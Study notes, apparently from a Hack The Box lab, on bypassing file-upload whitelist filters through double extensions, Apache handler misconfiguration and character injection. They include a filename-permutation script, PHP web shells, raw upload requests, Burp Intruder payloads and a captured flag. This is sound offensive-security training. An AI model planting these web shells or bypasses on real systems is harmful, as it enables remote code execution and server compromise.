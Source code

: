 # Whitelist Filters

A whitelist is generally more secure than a blacklist.

A whitelist is usually only used with upload functionalities where only a few file types are allowed.

Both blacklists and whitelists may also be used in tandem.

## Double Extensions

Example of code :

$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}

http://SERVER_IP:PORT/profile_images/shell.jpg.php?cmd=id


--> Will not work if applications use regex pattern like this :
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }

## Reverse Double Extension

In some cases, the file upload functionality itself may not be vulnerable, but the web server configuration may lead to a vulnerability.

Example of vulnerable Apache conf :
/etc/apache2/mods-enabled/php7.4.conf

<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>

it will execute as php a file named : shell.php.jpg

## Character Injection

The following are some of the characters we may try injecting:

%20
%0a
%00
%0d0a
/
.\
.
…
:

(shell.php%00.jpg) works with PHP servers with version 5.X or earlier
on a Windows (shell.aspx:.jpg) which should also write the file as (shell.aspx)

Bash script to generate all permutations :

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$ext.jpg" >> wordlist.txt
        echo "shell.jpg$ext" >> wordlist.txt
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done


## LAB

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$ext.jpg" >> wordlist.txt
        echo "shell.jpg$ext" >> wordlist.txt
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

echo "<?php system($_GET['cmd']); ?>" > shell.php

POST /upload.php HTTP/1.1
Host: 94.237.56.188:42819
Content-Length: 215
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0RFhDsJuZgAc5CBt
Origin: http://94.237.56.188:42819
Referer: http://94.237.56.188:42819/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundary0RFhDsJuZgAc5CBt
Content-Disposition: form-data; name="uploadFile"; filename="shell.jpg"
Content-Type: image/jpeg

<?php system(['cmd']); ?>

------WebKitFormBoundary0RFhDsJuZgAc5CBt--

Send to Intruder
Options : wordlist.txt

Content-Disposition: form-data; name="uploadFile"; filename="§shell.jpg§"
Content-Type: image/jpeg

<?php system(['cmd']); ?>

------WebKitFormBoundary0RFhDsJuZgAc5CBt--


Length : 193 so it is accepted as jpg file

Payload:	shell.php/.jpg
Payload:	shell.php.\\.jpg
Payload:	shell.phps.\\.jpg

http://94.237.56.188:42819/profile_images/shell.phps.//.jpg

--> Not Found

Payload:	shell.phps/.jpg

http://94.237.56.188:42819/profile_images/shell.phps/.jpg

--> Forbidden

echo "<?php system($_GET['cmd']); ?>" > shell.php/.jpg

echo "<?php system($_GET['cmd']); ?>" > shell.php.jpg

echo "<?php system($_GET['cmd']); ?>" > shell.phar.jpg

echo "<?php system($_GET['cmd']); ?>" > shell2.phar\x00.jpg

echo "<?php echo("test");system($_GET['cmd']); ?>" > shell3.phar.jpg
test

echo "<?php echo("test");echo($_GET['cmd']);system($_GET['cmd']); ?>" > shell4.phar.jpg
testArray

echo "<?php echo("test");echo($_REQUEST['cmd']);system($_REQUEST['cmd']); ?>" > shell5.phar.jpg
testArray

echo "<?php echo("test");echo($_REQUEST['cmd'][0]);system($_REQUEST['cmd'][0]); ?>" > shell6.phar.jpg
testcmd

echo "<?php system('cat /flag.txt'); ?>" > shell7.phar.jpg
HTB{1_wh173l157_my53lf}